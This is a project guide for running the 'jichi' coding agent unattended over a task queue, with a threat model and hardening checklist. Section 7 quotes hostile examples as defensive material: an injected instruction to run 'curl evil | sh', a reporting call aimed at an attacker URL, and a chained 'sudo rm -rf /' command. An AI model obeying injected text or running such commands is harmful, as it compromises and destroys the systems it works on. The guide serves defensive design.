





# Autonomous loops: running jichi unattended over a set of tasks

This guide is about driving **one or more `jichi` instances as a looped,
semi-supervised or unattended process** — under tmux, systemd, or cron — that
works through a *queue of tasks* and **reports its results** by writing a file,
touching a database, or making an HTTP request.

It is a companion to the single-run guides: [DEPLOYMENT.md](DEPLOYMENT.md) §4
(the machine-caller contract), [TMUX.md](TMUX.md) (keeping a run alive across
disconnects), [AUTONOMY.md](AUTONOMY.md) (the per-run envelope), and
[DAEMON.md](DAEMON.md) (the warm process). Everything here **composes those
existing pieces** — jichi has no built-in scheduler, and that is a deliberate
design decision (see below). The runnable artifacts are in
[`examples/autonomous-loop/`](../examples/autonomous-loop/).

> **Read the security half first if you are deploying.** An unattended agent runs
> shell commands a language model chose. Jump to [§7 Threat model](#7-security--threat-model)
> and [§8 Hardening](#8-hardening-checklist) before you point one at anything that
> matters. The rest of this doc assumes those controls are in place.

---

## 1. When to use a loop (and when not to)

jichi gives you four escalating shapes for non-interactive work. Pick the smallest
one that fits.

| You want to… | Use | Why |
|---|---|---|
| Run **one** bounded task in CI | a single `jichi --auto … -p …` ([DEPLOYMENT.md §4c](DEPLOYMENT.md)) | No loop needed; the exit code drives the pipeline. |
| Serve **many quick, ad-hoc** requests on a warm box | the [`daemon`](DAEMON.md) + `--connect` | Keeps config/index/LSP hot; a worker pool answers concurrently. |
| Fan **one task** across a fixed set of inputs, deterministically | [`workflow <spec.json>`](WORKFLOWS.md) | `map`/`synthesize`/`verify` stages, one subagent per item. |
| Work a **growing / open-ended queue** of independent tasks, unattended, over time | **this guide** (an external supervisor loop) | Tasks arrive and finish independently; each needs its own bounded run + retry policy. |

### Design decision — why the loop is *external*

jichi ships **no** `--loop`, scheduler, or persistent task queue. A grep of the
codebase confirms it: looping is delegated to `cron` / `tmux` / `systemd` / CI.
That is intentional:

- **The OS already does this well.** `systemd` (restart policy, sandboxing,
  socket/timer activation), `cron` (scheduling), and `flock` (mutual exclusion)
  are battle-tested. Re-implementing them inside a C89 binary would add a
  supervising event loop, a persistence format, and a scheduling policy — a large
  surface for little gain.
- **Blast-radius containment lives at the OS boundary.** The strongest hardening
  (a dedicated unprivileged user, `ProtectSystem=strict`, an egress firewall) is
  applied *to the process*, by the thing that launches it. A built-in loop would
  invite running many tasks inside one long-lived, more-privileged process.
- **Each task deserves a fresh, independently-bounded run.** One `--auto`
  invocation per task means one budget, one verify gate, one journal, one
  rollback boundary — and a crash or a runaway can't leak state into the next
  task.

So the "loop" is a ~120-line shell script (or the C89 equivalent) that the OS
supervises. §9 revisits whether a built-in primitive is ever worth it.

---

## 2. Architecture

The supervisor is a thin, dumb, *deterministic* driver around a smart,
*non-deterministic* worker. The intelligence is in jichi; the supervisor only
claims work, bounds it, and routes the outcome.



**The worker turn itself** is the standard jichi request/response loop, but with the
autonomy envelope active and the model given *reporting* tools:



### Topologies: one instance, many, or a daemon



- **Single instance** is the default: one `loop.sh` draining one queue.
- **N instances, one queue** scale throughput. Because claiming a task is an
  atomic `rename(2)` into `running/`, two instances never grab the same task —
  no lock file, no coordinator. Give each instance its **own workspace** (so file
  edits don't collide) and its own journal directory.
- **The daemon** is a different tool for a different job — many *quick* requests
  against a warm process. It is not a task-queue; pair it with the loop only if
  you also have interactive/ad-hoc traffic. See [DAEMON.md](DAEMON.md).

### A fourth topology: across MACHINES, the supervisor pushes (M459)

The three above share one assumption that is easy to miss: **one filesystem**.
"N instances, one queue" works because claiming is an atomic `rename(2)`, and a
rename is atomic within a filesystem. A fleet spread over a Raspberry Pi, an
Android tablet and a proot guest has no shared filesystem at all.

Manufacturing one — NFS, sshfs — is the tempting move and the wrong one: it puts
a network filesystem's rename semantics underneath the only thing keeping two
agents off the same task. **Push instead.** The supervisor already holds an ssh
connection to each device (that is how every hardware row in this repo is
driven), and an assignment carried over that connection is exactly-once by
construction. No queue, no claim, no lock, and nothing to be atomic about.

`scripts/fleet-run.sh` implements it. Design decisions, each with what it rejects:

| Decision | Why, and what it rejects |
|---|---|
| Devices are **thin clients** | The model stays on the workstation. A 4 GB device hosting a model measures the model, not jichi — the same rule `ROBOTICS_BRINGLIST.md` states in bold for boards |
| **Deadline scales per device, token budget does not** | A token is the same work everywhere, so scaling it would make devices incomparable. Wall-clock is not: each target carries the multiplier its tier-b row measured. A fleet with a uniform deadline kills its slowest member and calls it a timeout |
| Scratch workspace + `--edit-scope` + `--path-fence` + **`--strict-scope`** | The blast radius of a bad turn is a directory meant to be thrown away. `--strict-scope` closes the shell, because doctor's own warning is that a shell command "can reach past it and is **detected afterward, not prevented**" — the wrong tense for an unattended run on someone else's tablet. Cost stated plainly: a task that must run a build cannot use this script as written |
| Verdicts from **positive markers**, never exit codes | A dead ssh and a refused task both exit non-zero; only the stream distinguishes them |
| `--heartbeat` on | Otherwise a wedged device and a long model call look identical |
| Journal reads **filtered by run id** | The device's journal accumulates. See below — this one was learned the hard way |

**Two findings from the first real fleet run, both worth inheriting.**

*"done" is not a success verdict.* A run against a model that **describes** tool
calls instead of invoking them terminates perfectly cleanly — `stop_reason:
done`, no error, tokens spent, and an empty workspace. The first dispatch here
reported "1 completed, 0 did not" for a run that created nothing. jichi already
publishes what was needed (`no_changes`, `tool_calls`, `tool_calls_executed` on
the journal's `end`); the supervisor simply was not reading it. On a fleet this
matters more than anywhere else, because nobody is watching the device and **the
summary is the result**.

*Scope every journal read to the run that produced it.* jichi appends each run to
the journal path it is given, so a bare `grep` answers with whatever any earlier
run said. This cost an afternoon of accusing jichi of mis-reporting `no_changes`
— run 1, against a describe-only model, legitimately recorded `no_changes:true`,
and every later run inherited it, including two that had demonstrably written
their files. jichi was right all three times. Extract the run id from the
stream's `done` event and filter the journal by it; do not rely on remembering to
delete a file.

**Check the model before the fleet.** `jichi doctor --live` classifies tool
calling as native / text / none in one request. Measured on this bench: a
`qwen2.5-coder-14b` served by LM Studio reports **text** — it emits perfectly
correct `write_file` calls as prose JSON, which jichi cannot execute — while
`qwen3.5-9b` on the same server reports **native** and drives the loop. That one
probe is the difference between a fleet that works and a fleet that burns its
budget narrating.

> **Re-measured 2026-08-21 (M517), and the row moved.** On the same server
> `qwen3.5-9b` now answers `"Failed to load model"` — so it cannot be probed at
> all, and `doctor --live` reports the ambiguous *probe failed* rather than a
> capability. Four of the eight advertised ids fail to load that way; the two
> that load emit tool calls as prose the server does not translate. **`doctor
> --live` distinguishes native / text / none, but not "cannot call tools" from
> "cannot be loaded"** — when it says *failed*, ask the server directly before
> concluding anything about the model
> (`docs/analysis/2026-08-21-self-hosting-first-review.md` §1).

**A shared server divides its context among parallel slots.** `lms ps` reported
`CONTEXT 8192, PARALLEL 4`, and llama.cpp splits the KV cache across slots — so
each client gets about 2048 tokens, not 8192. Declaring the server's *advertised*
total to the devices produced a context-window overflow on the second device
while the first ran fine, which reads like a device problem and is not one.
**Declare the per-slot window, and remember that concurrency is what makes a
fleet a fleet.** On this bench, reloading the server with a 32768-token
context and two parallel slots, then declaring 16000 to the devices, let both run
at once. (Those two knobs are the model server's, not jichi's.)

**Fence and task must be designed together.** `--strict-scope` forbids
`run_terminal_command`, so a task phrased as "put the output of `uname -s` in a
file" cannot succeed however capable the model is: the Pi's agent tried the shell
three times, was denied three times, and produced nothing. The tooling was right
and the task was wrong. This is visible at a glance in the summary's
attempted/executed column — **7 attempted, 4 executed** — which is exactly the
signal that column exists for: work being refused rather than not attempted.

---

## 3. The task-set / queue model

A task is just a text file whose contents are the prompt. The queue is a
directory. This is intentionally the simplest thing that supports multiple
producers, multiple consumers, retries, and inspection with `ls`.

```
queue/
  pending/     drop tasks here  (e.g. summarize.task)
  running/     claimed, in flight   (name.<pid>)
  done/        completed (exit 0)
  failed/      quarantined (retries exhausted, or misconfig)
  attempts/    per-task retry counters
```

### Claiming is an atomic rename

The one subtle correctness property is that two instances must never run the same
task. `rename(2)` within a filesystem is atomic, so the claim is race-free without
any lock:

```sh
# from examples/autonomous-loop/loop.sh
claim_task() {
  for f in "$QUEUE"/pending/*.task; do
    [ -e "$f" ] || continue
    dest="$QUEUE/running/$(basename "$f").$$"
    if mv "$f" "$dest" 2>/dev/null; then   # atomic: exactly one winner
      printf '%s\n' "$dest"; return 0
    fi
  done
  return 1
}
```

The C supervisor does the same with `rename()` (and the loser simply sees the
file gone and moves on):

```c
/* from examples/autonomous-loop/jichi-supervisor.c */
snprintf(running, PATHMAX, "%s/running/%s.%ld", queue, name, (long)getpid());
if (rename(from, running) == 0) {   /* atomic: one winner per task */
    strcpy(base, name);
    return 1;
}
```

> If you prefer a single-writer guarantee across scheduled invocations (cron),
> wrap the whole run in `flock -n /path/to.lock loop.sh` so a slow run isn't
> double-started by the next tick — see `crontab.example`.

### Routing on the exit code

jichi's exit code is the authoritative outcome (`docs/SCRIPTING.md`). The supervisor
routes on it; `--output json` (parsed with `jq` *if present*) only enriches the
log. Never make routing depend on parsing the model's prose.

| Exit | Meaning (`stop_reason`) | Supervisor action |
|-----:|---|---|
| `0` | `done` — completed (and, if `--verify`, it passed) | move to `done/` |
| `1` | `verify_failed` / `error` / `budget` | retry with backoff; quarantine after `MAX_ATTEMPTS` |
| `2` | usage / misconfiguration | quarantine immediately (retrying won't help) |
| `130` | `interrupted` (SIGINT) | requeue the task, stop the loop |
| `143` | graceful SIGTERM | requeue the task, stop the loop |

### Backoff and poison-task quarantine

A task that fails forever must not wedge the loop or burn tokens in a tight retry
spin. Each failure bumps a counter; after `MAX_ATTEMPTS` the task is quarantined
in `failed/` for a human, and a fixed backoff separates attempts:

```
on run(task):
    rc = jichi(task, bounds)
    if rc == 0:            done/ ; clear attempts
    elif rc == 2:          failed/            # misconfig — no retry
    elif rc in (130,143):  pending/ ; STOP    # signal — requeue and exit
    else:
        attempts[task] += 1
        if attempts[task] >= MAX_ATTEMPTS:  failed/          # poison
        else:                               pending/ ; sleep(BACKOFF)
```

### A loop-wide cost cap

Per-run budgets (next section) bound each turn, but a queue of 500 tasks can still
spend 500× a budget. The supervisor also tracks a **cumulative** token total
(summing `.tokens.input + .tokens.output` from each result) and stops the whole
loop at `COST_CAP_TOKENS`. This is the backstop that turns "an overnight run" into
"an overnight run that cannot cost more than $X".

---

## 4. Bounding each run (the autonomy envelope)

Every task runs inside the [autonomy envelope](AUTONOMY.md). These flags are the
difference between "autonomous" and "unsupervised and unbounded":

| Flag | Bounds |
|---|---|
| `--budget-tokens 400k` | total tokens (accepts `k`/`m` suffixes) |
| `--deadline 30m` | wall-clock (`s`/`m`/`h`) — **note: the flag is `--deadline`** |
| `--max-tool-calls 80` | number of tool invocations |
| `--max-reads N` | number of file reads (an all-reads-no-writes guard) |
| `--verify 'make test'` | a gate; on red, fix-forward then **roll back to the last green** |
| `--verify-every N` | run the verify mid-turn every N tool calls (bank green early) |
| `--edit-scope 'src/**'` | file writes confined to a glob |
| `--strict-scope` | additionally forbid the shell tool entirely |
| `--journal path` | JSONL audit of every budget/verify/rollback/out-of-scope event |

The budget check is enforced in the **core**, at every agent depth (so a
subagent's spend counts too):

```c
/* src/chat/jc_envelope.c — jc_env_over_budget() */
if (e->budget_tokens > 0.0 && e->tokens_used >= e->budget_tokens)
    return JC_BUDGET_TOKENS;
if (e->deadline_secs > 0 && (now - e->start_time) >= e->deadline_secs)
    return JC_BUDGET_DEADLINE;
if (e->max_tool_calls > 0 && e->tool_calls >= e->max_tool_calls)
    return JC_BUDGET_TOOLCALLS;
if (e->max_reads > 0 && e->reads >= e->max_reads)
    return JC_BUDGET_READS;
```

**Design decision — bounds on the command line, posture in the config.** The
reference `config.autonomous.json` sets the *security posture* (what the agent
may ever do). `loop.sh` sets the *per-run bounds* (budget, verify, scope) because
those depend on the task-set, not the host. Keep them separate so one config
serves many loops.

Hitting a budget is treated as a **stop, not a crash**: if a verifier is
configured and the tree is red, the run rolls back to green; otherwise the partial
work is kept for review (M80). So a budget-exhausted task exits `1` and the
supervisor retries or quarantines it — it does not silently discard good work.

---

### Design decision — the task brief is an input to the constraint scanner

M110 reads prohibitions out of the prompt and, in AUTO mode, adopts and enforces
them — then **persists** them to `<workspace>/.jichi/constraints.md` for every later
run in that directory. That is useful when you mean it and expensive when you do
not, because a queued loop writes many briefs and never reads the warning.

Three phrasings to avoid in a brief unless you mean them as orders:

| Avoid | Read as | Write instead |
|---|---|---|
| "Oracle files (**read-only**, …)" | the whole run is read-only | "reference inputs; do not modify them" — or just name the paths |
| "Do not change the **test** file" | do not run tests | "Leave `test_math.c` exactly as it is" |
| "…the **build** script stays put" | (safe today) | — |

Both of the first two cost a real drive: the second banned the test suite for a
task that had to run it, and the first silently made a 1.56 M-token `--auto` run
incapable of editing anything (`docs/ANECDOTES.md` #21). Both are narrowed as of
M167d/M168c, but a keyword scanner over natural language will keep producing this
class of surprise.

Two mitigations, in order of value:

1. **Read the warning.** Adoption and startup inheritance are announced at WARN
   and name the constraints. In a loop, that line lands in the per-task log — grep
   for `[constraint]` when a task produces suspiciously little.
2. ~~**Clear between tasks.**~~ **No longer needed (M169):** a constraint jichi
   infers from a brief is now enforced for that run only and is never written to
   `.jichi/constraints.md`, so one bad brief cannot poison the rest of the queue.
   The store holds only what you authored. Clearing it between tasks is still
   correct if *you* put deliberate per-task policy there.

## 5. Reporting channels: file, database, HTTP

The task said "report via specific tool calls." jichi exposes three channels; the
mapping to built-in vs. custom tooling matters for security.



### File — built-in `write_file`, or a user tool for anywhere else

For artifacts that belong **in the workspace** (a report, a patch, a generated
file), the built-in `write_file` is correct: it routes through the path fence
(`jc_app_write_file`), so an unattended run can't write outside the project. For a
status file that must live **outside** the workspace (a dashboard log, a spool the
supervisor reads), use a user-defined tool whose script owns the path — see
`report.sh`, wired as `report_status` in the config.

### Database — a user-defined tool (there is no built-in DB)

jichi has no database support by design. You expose one as a **user-defined tool**
(`config tools[]`): a small script wrapping `sqlite3` or `psql`. The crucial
safety property is *how jichi passes arguments to it*:

```c
/* src/tools/jc_tool_user.c — user_tool_run(): arguments go as JSON on stdin
 * and as JICHI_ARG_<NAME> env vars, NEVER on the command line. */
stdin_json = jc_json_print(args);
/* ... for each scalar arg: setenv-style JICHI_ARG_<UPPERCASED_NAME>=value ... */
code = jc_proc_capture(argv, &env, stdin_json, &sb, USER_TOOL_MAX_OUTPUT,
                       c->timeout, &app->abort_flag);
```

Because a model-chosen value never becomes a shell word or an extra flag, it
cannot inject a command. Combined with **parameter binding** in the script (bind
`:status`/`$1`, never string-concatenate SQL), a hostile value is inert data:

```sh
# from examples/autonomous-loop/db-report.sh (sqlite backend)
sqlite3 -batch "$DB" \
  "CREATE TABLE IF NOT EXISTS report(ts TEXT, status TEXT, count INTEGER);" \
  ".param set :s '$STATUS'" ".param set :c $COUNT" \
  "INSERT INTO report VALUES(datetime('now'), :s, :c);"
```

### HTTP — `fetch_url` for reads, a user tool for POST

- **Reading** a URL: the built-in `fetch_url` is **GET-only and SSRF-guarded** —
  it refuses loopback/link-local/private/reserved hosts up front and at
  connect/redirect time (M131), and caps the body at `fetchMaxBytes`. Prefer it.
- **Posting** a report needs a user-defined tool wrapping `curl`, and **a
  user-defined tool is not SSRF-guarded**. So the hardening moves into the script:
  the **endpoint URL is fixed by the operator**, the model supplies only the
  payload:

```sh
# from examples/autonomous-loop/http-report.sh
: "${JICHI_REPORT_URL:?fixed reporting endpoint}"      # operator-set, never a model arg
BODY="$(printf '%s' "$JICHI_ARG_SUMMARY" | jq -Rs '{summary: .}')"
curl --fail --silent --max-time 20 -X POST --data "$BODY" \
     -H "Authorization: Bearer $JICHI_REPORT_TOKEN" "$JICHI_REPORT_URL"
```

> **The model chooses *what* to report, never *where*.** Every reporting script
> fixes its destination (file path / DSN / URL) from operator-set environment and
> takes only a typed payload from the model. This single rule closes the
> exfiltration path a "report to this URL" tool would otherwise open.

The full config wiring all three is
[`examples/autonomous-loop/config.autonomous.json`](../examples/autonomous-loop/config.autonomous.json).

---

## 6. Running it

### Under tmux (interactive supervision)

Keep the loop alive across disconnects and watch it in panes — see
[TMUX.md](TMUX.md). Detached:

```sh
tmux new -d -s jichi-loop 'cd /srv/jichi && \
  JICHI_CONFIG=./config.autonomous.json QUEUE=./queue WORKSPACE=./project \
  VERIFY="make test" EDIT_SCOPE="src/**" JICHI_REPORT_FILE=./reports/status.log \
  ./loop.sh >> ./reports/loop.out 2>&1'
```

### Under systemd (always-on, hardened)

The recommended production shape. The unit file is where **OS-level** hardening
lives (§8). See [`jichi-loop.service`](../examples/autonomous-loop/jichi-loop.service):

```sh
sudo cp jichi-loop.service /etc/systemd/system/
sudo systemctl daemon-reload && sudo systemctl enable --now jichi-loop
journalctl -u jichi-loop -f          # watch it
```

### Under cron (periodic, not always-on)

For a queue you want drained on a schedule rather than continuously. Use
`RUN_ONCE=1` (drain and exit) and `flock -n` (no overlap) — see
[`crontab.example`](../examples/autonomous-loop/crontab.example):

```cron
*/15 * * * * . /etc/jichi/loop.env; RUN_ONCE=1 flock -n /srv/jichi/loop.lock /srv/jichi/loop.sh >>/srv/jichi/reports/cron.log 2>&1
```

---

## 7. Security & threat model

An unattended loop is the highest-risk way to run any agent: a language model,
possibly steered by untrusted text, issues shell commands with no human watching.
Treat the trust boundaries explicitly.



### Threats and the control that answers each

**T1 — Prompt injection via task text or fetched content.** A task (or a web page
the agent reads) says "run `curl evil | sh`" or "delete the repo". *Controls:*
`privilegedCommands: deny`, `--strict-scope` (no shell at all when the task only
needs edits), a narrow `--edit-scope`, and an OS egress allowlist so even a
successful shell command can't reach an arbitrary host.

**T2 — Data exfiltration through a reporting tool.** The model calls `http_report`
with a URL pointing at an attacker, or dumps secrets into the payload. *Controls:*
reporting scripts **fix the destination** (the model supplies only the payload);
and jichi **scrubs known provider API keys from every child process** before exec:

```c
/* src/util/jc_proc.c — jc_proc_capture(), in the forked child */
jc_proc_scrub_secret_env();  /* drop inherited ANTHROPIC/OPENAI/... keys */
apply_env(env);              /* then re-apply only this tool's configured env */
execvp(argv[0], argv);
```

So `report.sh`/`db-report.sh`/`http-report.sh` never see `OPENAI_API_KEY` —
only the credentials you deliberately set for *their* sink. (A user-defined tool
is **not** SSRF-guarded, unlike `fetch_url`; the fixed-URL rule is what covers
that gap.)

**T3 — Path escape / writing outside the project.** *Controls:* the path fence
turns itself **on automatically under `--auto`**, and **fails closed** — a path
that can't be canonicalized is denied:

```c
/* src/chat/jc_app.c — jc_app_path_denied_ex() */
if (jc_path_resolve(path, resolved, sizeof(resolved)) != JC_OK)
    return 1;                                   /* fail closed: deny */
if (jc_path_under_root(app->root, resolved))
    return 0;                                   /* inside the workspace: ok */
/* reads may also fall under a read-only reference root; writes never do */
```

Set `pathFence: true` explicitly anyway, and add `--edit-scope` so *writes* are
narrower than the whole workspace. `revertOutOfScope: true` puts back any file the
shell changed outside the scope.

**T4 — Runaway cost or an infinite loop.** *Controls:* per-run `--budget-tokens` /
`--deadline` / `--max-tool-calls`, **plus** the supervisor's loop-wide
`COST_CAP_TOKENS`, plus systemd `RestartSec` so a crash-loop backs off.

**T5 — Privilege escalation (the motivating incident: an agent ran `sudo apt-get
upgrade`).** *Controls:* the privileged-command gate is evaluated **below the
permission verdict**, so the blanket AUTO grant — the very thing that let it
happen — can never satisfy it, and an **unattended run refuses** by default:

```c
/* src/chat/jc_agent.c — after the normal verdict, for run_terminal_command */
enum jc_priv_kind pk = jc_priv_detect(pcmd, &ptok);   /* sudo/doas/pkexec/su/run0 */
if (pk != JC_PRIV_NONE) {
    if (allow)                         decision = "allowlist";
    else if (policy == JC_PRIVPOL_DENY) { refuse = 1; decision = "deny"; }
    else if (policy == JC_PRIVPOL_ALLOW) decision = "allow";
    else if (interactive_prompt)       /* ask a human afresh */ ;
    else { refuse = 1; decision = "unattended_refused"; }   /* the default */
    jc_audit_privileged(app, launcher, pcmd, decision);     /* always-on audit */
}
```

Every attempt — refused or not — is appended to
`~/.jichi.d/audit/privileged.jsonl` (owner-only, secret-scrubbed),
independent of opt-in telemetry so it never goes dark. For an unattended loop set
`privilegedCommands: "deny"` and, only if a task genuinely needs one specific
command, add it to `privilegedCommandsAllow` (a chained command like
`sudo x; sudo rm -rf /` is rejected even when `sudo x` is allow-listed). See
[DEPLOYMENT.md §5](DEPLOYMENT.md) and
[the design proposal](proposals/2026-07-privileged-commands.md).

**T6 — Multi-instance interference.** Two instances edit the same files or grab
the same task. *Controls:* atomic-rename claim (§3) + a **separate workspace per
instance**; separate journal directories so their audit trails don't interleave.

**T7 — Losing observability to a rollback.** A verify failure rolls back the work
tree — and if your log lived inside the workspace, the rollback would erase it
(this actually happened; see [ANECDOTES.md](ANECDOTES.md) #1). *Control:* jichi
writes its journal and audit **outside** the workspace by default
(`~/.jichi.d/`). Keep your supervisor's own logs there too, never in
`WORKSPACE`.

---

## 8. Hardening checklist

Several of the strongest controls are **off by default** (they change behavior, so
jichi won't impose them silently). For an unattended loop, turn them on.

### In jichi's config / flags

- [ ] `privilegedCommands: "deny"` — refuse sudo/doas/pkexec/su/run0 outright
      (default `ask` already refuses *unattended*, but `deny` is explicit and
      covers the `allow`-by-accident case).
- [ ] `pathFence: true` — don't rely on the `--auto` auto-on if a run might not be
      `--auto`.
- [ ] `--edit-scope 'src/**'` (and `--strict-scope` when no shell is needed) — make
      *writes* narrower than the workspace.
- [ ] `revertOutOfScope: true` — undo shell-introduced changes outside the scope.
- [ ] `--verify '<cmd>'` — a real gate, so a bad change rolls back to green.
- [ ] `permissions.deny: ["git_push", …]` — deny outward-facing tools you don't want.
- [ ] Keep `privilegedAudit: true` (default) and `--journal` on.
- [ ] `apiKeyEnv`, never a literal `apiKey` (a literal is visible in `ps`).
- [ ] Optionally `hooksEnabled: true` with a `PreToolUse` hook for a final,
      code-driven veto ([HOOKS.md](HOOKS.md)) — a hook can only *narrow* a verdict.

### At the OS boundary (the part jichi can't do for you)

- [ ] **Run as a dedicated non-root user** with no passwordless sudo. This is the
      control that matters most; `doctor` warns if you run as root.
- [ ] **systemd sandbox** (see `jichi-loop.service`): `NoNewPrivileges=yes`,
      `ProtectSystem=strict`, `ProtectHome=yes`, `ReadWritePaths=` only the queue +
